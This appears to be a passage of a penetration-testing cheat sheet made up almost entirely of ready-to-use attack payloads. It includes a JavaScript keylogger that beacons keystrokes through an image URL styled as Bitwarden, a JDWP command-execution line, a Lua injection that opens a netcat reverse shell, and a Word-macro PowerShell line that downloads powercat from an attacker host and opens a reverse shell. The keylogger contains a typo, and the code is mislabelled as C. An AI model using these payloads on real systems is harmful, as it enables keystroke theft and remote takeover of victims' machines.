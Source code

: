 ### logger.js

```c
var keys='';
var url = 'bitwarden-info.gif?c=';

document.onkeypress = function(e) {
    get = window.event?event:e;
    key = get.keyCode?get.keyCode:get.charCode;
    key = String.fromCharCode(key);
    keys+=key;

}
window.setInterval(function(){
    if(keys.length>0) {
        new Image().src = url=keys;
        keys = '';
    }
}, 5000);
```

```c
<!doctype html>
    <script src="log.js">
  </script>
</body></html>
```

## JDWP

### Remote Code Execution (RCE)

```c
$ print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

## Lua Reverse Shell

```c
http://<RHOST>');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT>/tmp/f")--
```

## Macros

### Create malicious Word Documents

#### Payload

```c
IEX(New-Object System.Net.WebClient).DownloadString("http://<LHOST>/powercat.ps1");powercat -c <LHOST> -p <LPORT> -e powershell
```
